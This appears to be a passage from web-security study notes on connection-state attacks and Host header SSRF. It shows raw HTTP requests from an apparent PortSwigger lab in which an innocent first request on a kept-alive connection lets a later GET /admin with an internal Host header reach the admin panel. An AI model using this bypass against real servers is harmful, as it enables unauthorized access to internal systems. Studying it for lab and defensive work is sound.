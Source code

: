 [^conn-attacks]: https://portswigger.net/research/browser-powered-desync-attacks#state

For performance reasons, many websites **reuse connections for multiple request/response cycles** with the same client. Poorly implemented HTTP servers sometimes work on the **dangerous assumption that certain properties**, such as the Host header, **are identical for all HTTP/1.1 requests** sent over the same connection.

You may occasionally encounter servers that **only perform thorough validation on the first request** they receive over a new connection. In this case, you can potentially bypass this validation by sending an innocent-looking initial request then following up with your malicious one down the same connection.

The validation on the first request prevents us from reaching the admin page:
```http
GET / HTTP/1.1
Host: 192.168.0.1
Connection: close


HTTP/1.1 301 Moved Permanently
Location: https://0ae0009f04395312818d2fca00fc00dd.web-security-academy.net/
```

Starting with a legittimate request and reusing the same connection we can reach the admin page:
```http
GET / HTTP/1.1
Host: 0ae0009f04395312818d2fca00fc00dd.web-security-academy.net
Connection: keep-alive


HTTP/1.1 200 OK


GET /admin HTTP/1.1
Host: 192.168.0.1


HTTP/1.1 200 OK
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
<input required type="hidden" name="csrf" value="L1XB37greeTMICoNuxGjc97WOwIDZulQ">
<label>Username</label>
```


## Host header SSRF attacks (aka Routing-based SSRF)

Routing-based SSRF relies on exploiting the intermediary components that are prevalent in many cloud-based architectures. This includes in-house load balancers and reverse proxies. They sit in a privileged network position that allows them to receive requests directly from the public web, while also having access to much, if not all, of the internal network. This makes the Host header a powerful vector for [Server Side Request Forgery (SSRF)](Server%20Side%20Request%20Forgery%20(SSRF).md) attacks, potentially transforming a simple load balancer into a gateway to the entire internal network.

More information in the article *Cracking the lens: targeting HTTP's hidden attack-surface, PortSwigger* [^host-header-SSRF]


[^xff]: [What Is X-Forwarded-for and When Can You Trust It?](../../Readwise/Articles/HTTP%20Toolkit%20-%20What%20Is%20X-Forwarded-for%20and%20When%20Can%20You%20Trust%20It.md)
[^host-header-SSRF]: https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface